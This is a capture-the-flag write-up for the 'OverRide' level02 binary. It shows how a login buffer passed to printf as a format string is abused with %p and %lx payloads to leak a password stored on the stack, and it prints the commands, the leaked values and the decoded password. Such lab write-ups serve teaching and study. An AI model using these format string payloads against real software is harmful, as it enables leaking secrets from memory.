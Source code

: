 The program waits for a login and a password using fgets.

When we disassemble the program, we can see a few things:
- We have a first buffer that later on used to store the login
- We have a second buffer in which will be stored the actual password
- We have a third buffer for the user inputed password
- At the end, the login buffer is used as a printf format string

We'll use that to display the content of the stack, therefore display the password stored in the second buffer.
Using %p, we'll try to get the offset to read the login buffer:
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: AAAABBBB%28$p
--[ Password:
*****************************************
AAAABBBB0x4242424241414141 does not have access!

We now know the offset of our buffer, the goal now is to find the offset of the password buffer.

When we disassemble the main function, we see all 3 buffers being initialized:
   0x000000000040082c <+24>:	lea    -0x70(%rbp),%rdx  ; 0x7fffffffe520  buffer1 username
   ...
   0x0000000000400849 <+53>:	lea    -0xa0(%rbp),%rdx  ; 0x7fffffffe4f0  buffer2 file
   ...
   0x0000000000400869 <+85>:	lea    -0x110(%rbp),%rdx ; 0x7fffffffe480  buffer3 password
We can see that the second buffer is offseted by 0x30/48 from the first one, since printf shifts 8 by 8, we'll want to move from 28 to 28-48/8, this gives us 22.


level02@OverRide:~$ for((i=0;i<50;i++)); do ./level02 < <(python -c "print('AAAA'  + '%$i"'$'"p\nBBBBBBBB' )") ; done | grep 'does not have access!'


We also now that the size of the buffer is 41 through the disassembled code, so we want to display 40/6=5 chunks through printf

We can now simply use the following login to print the content of password:
['%22$lx', '%23$lx', '%24$lx', '%25$lx', '%26$lx']
Enter any password, and we can see the following:
['756e505234376848', '45414a3561733951', '377a7143574e6758', '354a35686e475873', '48336750664b394d'] does not have access!

We can now take these 5 integers, reverse the endian, and print them as ascii.
>>> pw = ['756e505234376848', '45414a3561733951', '377a7143574e6758', '354a35686e475873', '48336750664b394d']
>>> "".join([chunk.decode('hex')[::-1] for chunk in pw])
'Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H'

